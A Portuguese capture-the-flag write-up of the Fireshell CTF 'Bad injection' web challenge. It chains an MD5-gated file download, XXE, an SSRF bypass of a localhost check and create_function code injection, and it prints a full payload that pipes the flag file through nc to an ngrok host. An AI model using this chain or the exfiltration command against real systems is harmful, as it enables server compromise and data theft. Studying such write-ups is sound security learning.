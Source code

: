# Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](https://i.imgur.com/vtZ1BiQ.png)

`Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.`

`Analisando a source desta página, é possível ver uma passagem de parâmetros:`

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

`eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:`
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploração

`Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.`

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

`E o arquivo **Custom.php** em **/app/Controllers/** .`

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


`Utilizando do XXE, também podemos retornar arquivos do servidor.`

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

`no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:`

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

`Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.`

`Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:`

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


`que nos dá uma clara injeção de código.`

---
`Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.`

o árduo payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'0.tcp.ngrok.io'.chr(32).'12776'))">
    ]>
    <root><name>&xxe;</name></root>

* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a reques.

`a saída:`

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.